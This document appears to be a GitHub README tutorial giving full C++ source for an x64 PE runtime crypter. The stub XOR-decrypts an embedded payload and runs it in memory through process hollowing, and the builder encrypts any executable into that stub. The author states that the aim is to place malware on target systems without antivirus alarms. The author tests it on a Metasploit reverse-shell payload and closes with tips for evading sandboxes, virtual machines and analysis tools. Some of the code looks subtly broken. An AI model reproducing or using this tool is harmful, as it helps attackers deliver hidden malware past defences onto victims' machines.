






# x64 PE Runtime Crypter

## Introduction

In the following examples I will show how we program a PE runtime crypter for x64 applications in C++.
Prior knowledge of C++, WinAPI and PE file format is welcome.
Crypter are used by hackers / penetration testers to evade antivirus detection by encrypting malware. This makes it possible to place and execute the malware on the target system without alarms.

## detection options

Anti-virus software (AV) nowadays has three to detect malware:

(static) signature based detection: the AV checks the hashes (e.g. MD5, SHA256 ...) of a file against known malware hashes from a large database.

(static) heuristic detection: the AV checks a file for code characteristics e.g. functions which are known used by malware.

dynamic detection: in this case, the AV executes the file in a "safe environment" like a virtual machine (VM) or sandbox to analyze the behavior of the file at runtime.

Our crypter will prevent signature based detection and also mostly heuristic detection of AVs.
At the end I will give some tips to prevent dynamic analysis and also make it a little harder for reverse engineers and security researchers.
The main task of our crypter is to obfuscate an executable through encryption and thereby bypass the signature-based detection of AVs. To ensure this, the decrypted code must must be executed in memory so that it never touches the hard disk.

## Why C++?
Firstly because C++ is compiled which in itself is a security layer if we don't want someone to be able to easily inspect our source code. Also, C++ is an unmanaged (native) programming language, which means that C/C++ is compiled directly into assembly, which is interpreted by the processor. C# or Java are in contrast to C++ managed programming languages which are interpreted by a runtime environment. Executables of managed languages are compiled into an intermediate product (Bytecode) that is understandable for the runtime environment.
This Bytecode is much easier to reverse and read than assembly.
And finally, with C++ we have the possibility to obfuscate our source code really effectively on compiler level (e.g. by control flow flattering).

## Why x64?
I think most users have moved to 64-bit systems these days.
This is to our advantage because malware is less likely to be detected if we develop it for 64-bit systems.

As you can see, malware is very much about operating under the radar of security analysts/researchers and AVs.

## steps to do:

# stub development
the stub program is our "dummy" that later holds our malware (or any other x64 PE) in encrypted form. So the "only" thing our stub will do is:
- search inside itself for the embedded resource
- decrypt the found resource
- execute the decrypted image in memory (hardest part)


# crypter development
the crypter holds our hardcoded stub we programmed before (as a template) and writes it to disk. Then it reads the PE file we want to obfuscate and inserts it in encrypted form as a resource into our stub.
- read the input PE 
- validate input file as x64
- encrypt data from input PE
- write the stub to disk
- add encrypted data as resource to the stub


## Lets code

We start with the stub. first we create a function to find the encrypted resource. This is the file which will be attached later by our crypter. The first two parameters the function expects is the resource name and the resource type to find the code. 
```c++
#include <iostream>
#include <windows.h>

unsigned char *GetResource(int resourceId, char* resourceString, unsigned long* dwSize) {
    HGLOBAL hResData;
    HRSRC   hResInfo;
    unsigned char* pvRes;
    HMODULE hModule = GetModuleHandle(NULL);

    if (((hResInfo = FindResource(hModule, MAKEINTRESOURCE(resourceId), resourceString)) != NULL) &&
        ((hResData = LoadResource(hModule, hResInfo)) != NULL) &&
        ((pvRes = (unsigned char *)LockResource(hResData)) != NULL))
    {
        *dwSize = SizeofResource(hModule, hResInfo);
        return 	pvRes;
    }
    // quit if no resource found
    *dwSize = 0;
    return 0;
}
```


Now we write the main function. First we hide the console window. After that we call
the GetResource function with our parameters and decrypt the returned code byte by byte with XOR and our key (resource name "132", resource type "BIN", and the key "k" are freely selectable, but must be identical later in the crypter).
```c++
int main() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);

    // get embeded resource
    unsigned long dwSize;
    unsigned char* resourcePtr = GetResource(132, "BIN", &dwSize);


    // decrypt the resource raw data
    char key = 'k';
    char decrypted[dwSize];
    for (int i = 0; i < dwSize; i++)
        decrypted[i] = resourcePtr[i] ^ key;
```


Finally we have to execute the decrypted code. Normally the OS Loader does all the work (mapping sections of an executable into memory, performing address relocation fix-ups if necessary, resolving function addresses and creating Import Address Table ... ) to execute a PE file correctly on the system. The difficulty here is that we are not running an executable from disk but from memory.
We could write our own PE loader algorithm like [this](https://securityxploded.com/memory-execution-of-executable.php) POC by Amit Malik
or implement an extended, more complex loader like [this](https://github.com/abhisek/Pe-Loader-Sample/blob/master/src/PeLdr.cpp) from abhisek.

I decided to use a process hollowing technique which is a bit easier to implement.
We create a new process in suspended mode into which we can inject the code and then run it.
The important things we do here are:

`CreateProcess`: creating new process in a suspended mode for the injection.

`GetThreadContext`: retrieves the context of the specified thread.

`VirtualAllocEx`: allocates memory within the suspended process's address space.

`WriteProcessMemory`: writes data of the PE file into the allocated memory of the suspended process.

`SetThreadContext`: sets the RCX register to the entry point of the executable.

`ResumeThread`: resumes the thread of the suspended process.

```c++
    void* pe = decrypted;

    IMAGE_DOS_HEADER* DOSHeader;
    IMAGE_NT_HEADERS64* NtHeader;
    IMAGE_SECTION_HEADER* SectionHeader;

    PROCESS_INFORMATION PI;
    STARTUPINFOA SI;

    void* pImageBase;

    char currentFilePath[1024];

    DOSHeader = PIMAGE_DOS_HEADER(pe);
    NtHeader = PIMAGE_NT_HEADERS64(DWORD64(pe) + DOSHeader->e_lfanew);


    if (NtHeader->Signature == IMAGE_NT_SIGNATURE) {
        ZeroMemory(&PI, sizeof(PI));
        ZeroMemory(&SI, sizeof(SI));

        GetModuleFileNameA(NULL, currentFilePath, MAX_PATH);
        // create new process for injection
        if (CreateProcessA(currentFilePath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &SI, &PI)) {

            CONTEXT* CTX;
            CTX = LPCONTEXT(VirtualAlloc(NULL, sizeof(CTX), MEM_COMMIT, PAGE_READWRITE));
            CTX->ContextFlags = CONTEXT_FULL;

            if (GetThreadContext(PI.hThread, LPCONTEXT(CTX))) {
                pImageBase = VirtualAllocEx(
                        PI.hProcess,
                        LPVOID(NtHeader->OptionalHeader.ImageBase),
                        NtHeader->OptionalHeader.SizeOfImage,
                        MEM_COMMIT | MEM_RESERVE,
                        PAGE_EXECUTE_READWRITE
                );


                WriteProcessMemory(PI.hProcess, pImageBase, pe, NtHeader->OptionalHeader.SizeOfHeaders, NULL);
                // write pe sections
                for (size_t i = 0; i < NtHeader->FileHeader.NumberOfSections; i++)
                {
                    SectionHeader = PIMAGE_SECTION_HEADER(DWORD64(pe) + DOSHeader->e_lfanew + 264 + (i * 40));

                    WriteProcessMemory(
                            PI.hProcess,
                            LPVOID(DWORD64(pImageBase) + SectionHeader->VirtualAddress),
                            LPVOID(DWORD64(pe) + SectionHeader->PointerToRawData),
                            SectionHeader->SizeOfRawData,
                            NULL
                    );

                    WriteProcessMemory(
                            PI.hProcess,
                            LPVOID(CTX->Rdx + 0x10),
                            LPVOID(&NtHeader->OptionalHeader.ImageBase),
                            8,
                            NULL
                    );

                }

                CTX->Rcx = DWORD64(pImageBase) + NtHeader->OptionalHeader.AddressOfEntryPoint;
                SetThreadContext(PI.hThread, LPCONTEXT(CTX));
                ResumeThread(PI.hThread);

                WaitForSingleObject(PI.hProcess, NULL);

                return 0;
            }
        }
    }
}
```

We compile the program in release mode and our stub is ready!


Now we have to write our crypter. Our crypter is also a CLI application so we read our input PE (the file we want to encrypt) as argument.
We also create a byte array as a placeholder for the raw code of our compiled stub.
We change this at the end otherwise our IDE will lag or be functionally compromised because the byte array will be very large.
```c++
#include <iostream>
#include <windows.h>
#include <fstream>

using namespace std;

unsigned char rawData[] = {};


int main(int argc, char* argv[]) {

    if (argc < 2) {
        cout << "Error: Start this program with arguments." << endl;
        system("pause");
        return 0;
    }
    
    const char *resFile = argv[1];

    // read input file
    FILE *fileptr;
    char *fileBuff;
    long filelen;

    fileptr = fopen(resFile, "rb"); // Open the file in binary mode
    fseek(fileptr, 0, SEEK_END);    // jump to the end of the file
    filelen = ftell(fileptr);   // get the current byte offset in the file
    rewind(fileptr);    // jump back to the beginning of the file

    fileBuff = (char *)malloc(filelen * sizeof(char));  // alloc memory for the file
    fread(fileBuff, filelen, 1, fileptr);   // read in the entire file
    fclose(fileptr);
```
    

Now we check the header of the image to make sure we are working with a x64 PE.
```c++
cout << "Validate input file as x64 PE... ";
    IMAGE_DOS_HEADER* _dosHeader = (PIMAGE_DOS_HEADER) fileBuff;
    IMAGE_NT_HEADERS64* _ntHeader = PIMAGE_NT_HEADERS64)(DWORD64(fileBuff) + _dosHeader->e_lfanew);
    bool is64 = _ntHeader->FileHeader.Machine == IMAGE_FILE_MACHINE_AMD64;
    if (!is64) {
        cout << "Error. Input file is not a valid x64 PE" << endl;
        system("pause");
        return 0;
    }
  ```

And we encrypt the data with XOR and the key "k" exactly like in the stub before.
```c++
    char key = 'k';
    char encrypted[filelen];
    for (int i = 0; i < filelen; i++)
        encrypted[i] = fileBuff[i] ^ key;
```

Our crypter must now write the stub to disk.
```c++
    fstream bin ("Stub.exe",ios :: out | ios :: binary);
    if (!bin.write(reinterpret_cast<const char *>(rawData), sizeof(rawData))) {
        cout << "Error: Could not write the stub to disk" << endl;
        system("pause");
        return 0;
    }
    bin.close();
```

Now we have to add the encrypted data as resource to our stub. For this we use `BeginUpdateResource`, `UpdateResource` and `EndUpdateResource`. As I mentioned before we have to make sure that we use the same resource name and resource type as in the stub. Otherwise our stub program will not find a resource to work with.
```c++
    HANDLE hUpdateRes;
    BOOL result;

    hUpdateRes = BeginUpdateResource("Stub.exe", FALSE);
    if (hUpdateRes == NULL)
    {
        cout << "Error: Could not open file for writing" << endl;
        system("pause");
        return 0;
    }

    result = UpdateResource(hUpdateRes,                  // update resource handle
                            "BIN",                       // resource ID
                            MAKEINTRESOURCE(132),        // resource name
                            NULL,
                            encrypted,                   // ptr to encrypted resource
                            filelen);                    // size of resource

    if (result == FALSE)
    {
        cout << "Error: Could not add resource" << endl;
        system("pause");
        return 0;
    }

    // write changes and then close
    if (!EndUpdateResource(hUpdateRes, FALSE))
    {
        cout << "Error: Could not write changes to file" << endl;
        system("pause");
        return 0;
    }
    return 0;
}
```

Before compiling we insert the raw code as byte array into our code.
I use the HxD hexeditor to open my stub.exe and export the raw code to a .c file.



This .c file contains a byte array from our stub which we now simply copy and replace with our placeholder above the main function.
We also compile our crypter in release mode aaand...

Congratulations we have coded our own x64 PE runtime crypter!

## Lets test!
I have taken a new C++ window application for testing.



### It works :)

In the task manager we see our window application running in a new process under our stub.


If we take a look at the stub with CFF Explorer we can find our attached file under "resources". Also it is clear to see that the file is encrypted.



I created a x64 powershell_reverse_tcp with Metasploit to test the detection rate.
Here we see the fresh payload from metasploit.



And here the crypted payload.



## Tips for improvement
- In any case, a better encryption method like AES would be much saver as some AVs are able to crack XOR. 
- Hardcoded encryption keys are also horrible for security. I strongly recommend to use functions for building such sensible data at runtime.
- A different technique to run our PE could also decrease the detection rate because process hollowing is already noticeable.
- Adding a code signature to our stub also makes the application look more serious to AVs.
- Theoretically you could also program the whole stub in another more exotic language like GoLang.


- To avoid dynamic analysis like sandboxing we can take a look at the hardware specifications of the system at the beginning of our stub. So we can prevent further execution of our code if...
1. hard disk < 100 GB
2. RAM < 2 GB
3. CPU cores < 2

- An idea could also be a user interaction like a MSG box to prevent automated analysis of further code.

- We can also look for VM artifacts to identify a virtualized environment.
This could be files like "C:\Windows\System32\VBox*.dll" but also registry entries.

- Checking running processes coming from analysis tools (Ghidra, IDA, x64dbg, Wireshark ...) can also be very useful.


I hope you could learn something :)
